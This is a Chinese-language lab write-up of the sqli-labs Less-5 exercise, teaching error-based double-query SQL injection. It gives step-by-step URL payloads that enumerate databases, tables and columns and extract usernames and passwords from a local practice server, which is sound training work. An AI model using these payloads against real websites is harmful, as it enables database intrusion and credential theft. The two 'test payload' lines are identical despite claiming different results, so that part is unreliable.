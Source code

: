## 练习开始


首先打开http://127.0.0.1/Less-5/?id=1
![](luffy1.png)

less-5是基于错误的GET单引号变形字符型注入，位置在where之后且后跟limit


核心的语句在于
```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';
  	echo 'You are in...........';
  	echo "<br>";
    	echo "</font>";
  	}

```

和之前的less-1的课程的查询语句一样，不一样的是本次不会直接输出报错内容了


`
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo "<font size='5' color= '#99FF00'>";
  	echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
  	echo "</font>";
  	}
`



测试用的payload
```
") and 1=1 %23 返回正确
") and 1=1 %23 返回错误

```

**%23和--+等价**


针对该题可以用盲注的方式搞定，根据本题标题，双注入 还是用显错式的方式


双查询注入的理解有点麻烦，先讲一下子查询，看一个简单的例子：
Select concat((select database()));

其中的select database()就是一个子查询

双查询注入需要理解mysql内置的四个函数

rand():该用于产生0（包含）到1（不包含）的随机数，
![](luffy4.png)

![](luffy6.png)

floor():floor(x)该函数返回X的最大整数值，但不能大于X
![](luffy5.png)

Count():汇总函数
![](luffy7.png)

concat():链接两个字符串
![](luffy8.png)

group by:根据(by)一定的规则进行分组(Group)




双注入的原理是当在一个聚合函数，比如count函数后面如果使用分组语句就会把查询的一部分以错误的形式显示出来。在双注入的时候count(*), floor(rand()*2), group by 缺一不可，同时注意表中的记录要多于三条
`
SELECT floor(rand()*2);
`

该函数从里向外看。rand() 返回大于0小于1的小数，乘以2之后就成了小于0小于2了。然后对结果进行取证。就只能是0或1了。也就是这个查询的结果不是1，就是0
![](luffy9.png)

`
SELECT CONCAT((SELECT database()), FLOOR(RAND()*2));
`
先看最里面的SELECT database() 这个就返回数据库名，这里就是security了。然后FLOOR(RAND()*2)这个上面说过了。不是0，就是1.然后把这两个的结果进行concat连接，那么结果不是security0就是security1了

![](luffy10.png)


最常见的查询方式是
`
select count(*), concat('~',(select user()),'~', floor(rand()*2))as a from users group by a;
`
![](luffy11.png)

派生表的查询方式
`
select 1 from (select count(*), concat('~',(select user()),'~', floor(rand()*2)) as a from information_schema.tables group by a)x;
`
![](luffy12.png)




## 手工注入

###获取当前数据库

`
http://127.0.0.1/Less-5/?id=1'
`
![](luffy13.png)

看到语句出错，因为双注入查询利用的就是**print_r(mysql_error());**回显错误信息

获取当前数据库版本
`
http://127.0.0.1/Less-5/?id=' union select 1, count(*), concat('~',(select version()),'~', floor(rand()*2)) as a from users group by a --+
`

获取当前用户
`
http://127.0.0.1/Less-5/?id=' union select 1, count(*), concat('~',(select user()),'~', floor(rand()*2)) as a from users group by a --+
`
![](luffy15.png)




### 判断当前数据库数量


`
http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select count(*) from information_schema.schemata),'~', floor(rand()*2)) as a from information_schema.tables group by a --+

`
![](luffy16.png)
一共五个数据库

判断第一个数据库
`
http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select schema_name from information_schema.schemata limit 1,1),'~', floor(rand()*2)) as a from information_schema.tables group by a --+
`
![](luffy17.png)
通过修改limit之后的第一个参数逐步遍历数据库



### 检查security数据库的表


`
http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select count(*) from information_schema.tables where table_schema="security" ),'~', floor(rand()*2)) as a from information_schema.tables group by a --+
`
![](luffy18.png)

可以知道security有四个表



通过修改limit之后的第一个参数逐步遍历数据库的表
`
http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select table_name from information_schema.tables where table_schema="security" limit 0,1 ),'~', floor(rand()*2)) as a from information_schema.tables group by a --+
`
![](luffy19.png)


### 检查security数据库中user表的列

判断列的数量
`
http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select count(*) from information_schema.columns where table_schema='security' and table_name="users"),'~', floor(rand()*2)) as a from information_schema.tables group by a --+

`
![](luffy20.png)

检查列的内容
`
http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select column_name from information_schema.columns where table_schema='security' and table_name="users" limit 1,1),'~', floor(rand()*2)) as a from information_schema.tables group by a --+

`
![](luffy21.png)


### 爆出数据

`
http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select concat_ws(":",username,password) from users limit 1,1),'~', floor(rand()*2)) as a from information_schema.tables group by a --+
`

![](luffy12.png)







双注入的原理解释
[链接一](http://www.myhack58.com/Article/html/3/7/2016/73471.htm)
[链接二](https://www.cnblogs.com/dplearning/p/7355595.html)


